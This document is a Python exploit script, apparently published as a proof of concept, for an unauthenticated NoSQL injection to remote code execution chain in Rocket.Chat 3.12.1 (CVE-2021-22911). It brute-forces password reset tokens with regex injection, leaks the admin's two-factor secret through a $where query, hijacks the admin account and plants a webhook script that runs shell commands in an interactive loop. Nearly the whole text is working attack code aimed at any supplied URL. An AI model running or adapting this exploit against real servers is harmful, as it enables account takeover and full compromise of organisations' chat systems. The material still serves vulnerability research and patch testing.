EXP
---

    # Title: Rocket.Chat 3.12.1 - NoSQL Injection to RCE (Unauthenticated)
    # Author: enox
    # Date: 06-06-2021
    # Product: Rocket.Chat
    # Vendor: https://rocket.chat/
    # Vulnerable Version(s): Rocket.Chat 3.12.1
    # CVE: CVE-2021-22911
    # Credits: https://blog.sonarsource.com/nosql-injections-in-rocket-chat

    #!/usr/bin/python

    import requests
    import string
    import time
    import hashlib
    import json
    import oathtool
    import argparse

    parser = argparse.ArgumentParser(description='RocketChat 3.12.1 RCE')
    parser.add_argument('-u', help='Low priv user email [ No 2fa ]', required=True)
    parser.add_argument('-a', help='Administrator email', required=True)
    parser.add_argument('-t', help='URL (Eg: http://rocketchat.local)', required=True)
    args = parser.parse_args()


    adminmail = args.a
    lowprivmail = args.u
    target = args.t


    def forgotpassword(email,url):
        payload='{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"sendForgotPasswordEmail\\",\\"params\\":[\\"'+email+'\\"]}"}'
        headers={'content-type': 'application/json'}
        r = requests.post(url+"/api/v1/method.callAnon/sendForgotPasswordEmail", data = payload, headers = headers, verify = False, allow_redirects = False)
        print("[+] Password Reset Email Sent")


    def resettoken(url):
        u = url+"/api/v1/method.callAnon/getPasswordPolicy"
        headers={'content-type': 'application/json'}
        token = ""

        num = list(range(0,10))
        string_ints = [str(int) for int in num]
        characters = list(string.ascii_uppercase + string.ascii_lowercase) + list('-')+list('_') + string_ints

        while len(token)!= 43:
            for c in characters:
                payload='{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"getPasswordPolicy\\",\\"params\\":[{\\"token\\":{\\"$regex\\":\\"^%s\\"}}]}"}' % (token + c)
                r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
                time.sleep(0.5)
                if 'Meteor.Error' not in r.text:
                    token += c
                    print(f"Got: {token}")

        print(f"[+] Got token : {token}")
        return token


    def changingpassword(url,token):
        payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",\\"params\\":[\\"'+token+'\\",\\"P@$$w0rd!1234\\"]}"}'
        headers={'content-type': 'application/json'}
        r = requests.post(url+"/api/v1/method.callAnon/resetPassword", data = payload, headers = headers, verify = False, allow_redirects = False)
        if "error" in r.text:
            exit("[-] Wrong token")
        print("[+] Password was changed !")


    def twofactor(url,email):
        # Authenticating
        sha256pass = hashlib.sha256(b'P@$$w0rd!1234').hexdigest()
        payload ='{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"user\\":{\\"email\\":\\"'+email+'\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}}]}"}'
        headers={'content-type': 'application/json'}
        r = requests.post(url + "/api/v1/method.callAnon/login",data=payload,headers=headers,verify=False,allow_redirects=False)
        if "error" in r.text:
            exit("[-] Couldn't authenticate")
        data = json.loads(r.text)
        data =(data['message'])
        userid = data[32:49]
        token = data[60:103]
        print(f"[+] Succesfully authenticated as {email}")

        # Getting 2fa code
        cookies = {'rc_uid': userid,'rc_token': token}
        headers={'X-User-Id': userid,'X-Auth-Token': token}
        payload = '/api/v1/users.list?query={"$where"%3a"this.username%3d%3d%3d\'admin\'+%26%26+(()%3d>{+throw+this.services.totp.secret+})()"}'
        r = requests.get(url+payload,cookies=cookies,headers=headers)
        code = r.text[46:98]
        print(f"Got the code for 2fa: {code}")
        return code


    def changingadminpassword(url,token,code):
        payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",\\"params\\":[\\"'+token+'\\",\\"P@$$w0rd!1234\\",{\\"twoFactorCode\\":\\"'+code+'\\",\\"twoFactorMethod\\":\\"totp\\"}]}"}'
        headers={'content-type': 'application/json'}
        r = requests.post(url+"/api/v1/method.callAnon/resetPassword", data = payload, headers = headers, verify = False, allow_redirects = False)
        if "403" in r.text:
            exit("[-] Wrong token")

        print("[+] Admin password changed !")


    def rce(url,code,cmd):
        # Authenticating
        sha256pass = hashlib.sha256(b'P@$$w0rd!1234').hexdigest()
        headers={'content-type': 'application/json'}
        payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"totp\\":{\\"login\\":{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}},\\"code\\":\\"'+code+'\\"}}]}"}'
        r = requests.post(url + "/api/v1/method.callAnon/login",data=payload,headers=headers,verify=False,allow_redirects=False)
        if "error" in r.text:
            exit("[-] Couldn't authenticate")
        data = json.loads(r.text)
        data =(data['message'])
        userid = data[32:49]
        token = data[60:103]
        print("[+] Succesfully authenticated as administrator")

        # Creating Integration
        payload = '{"enabled":true,"channel":"#general","username":"admin","name":"rce","alias":"","avatarUrl":"","emoji":"","scriptEnabled":true,"script":"const require = console.log.constructor(\'return process.mainModule.require\')();\\nconst { exec } = require(\'child_process\');\\nexec(\''+cmd+'\');","type":"webhook-incoming"}'
        cookies = {'rc_uid': userid,'rc_token': token}
        headers = {'X-User-Id': userid,'X-Auth-Token': token}
        r = requests.post(url+'/api/v1/integrations.create',cookies=cookies,headers=headers,data=payload)
        data = r.text
        data = data.split(',')
        token = data[12]
        token = token[9:57]
        _id = data[18]
        _id = _id[7:24]

        # Triggering RCE
        u = url + '/hooks/' + _id + '/' +token
        r = requests.get(u)
        print(r.text)

    ############################################################


    # Getting Low Priv user
    print(f"[+] Resetting {lowprivmail} password")
    ## Sending Reset Mail
    forgotpassword(lowprivmail,target)

    ## Getting reset token
    token = resettoken(target)

    ## Changing Password
    changingpassword(target,token)


    # Privilege Escalation to admin
    ## Getting secret for 2fa
    secret = twofactor(target,lowprivmail)


    ## Sending Reset mail
    print(f"[+] Resetting {adminmail} password")
    forgotpassword(adminmail,target)

    ## Getting reset token
    token = resettoken(target)


    ## Resetting Password
    code = oathtool.generate_otp(secret)
    changingadminpassword(target,token,code)

    ## Authenticting and triggering rce

    while True:
        cmd = input("CMD:> ")
        code = oathtool.generate_otp(secret)
        rce(target,code,cmd)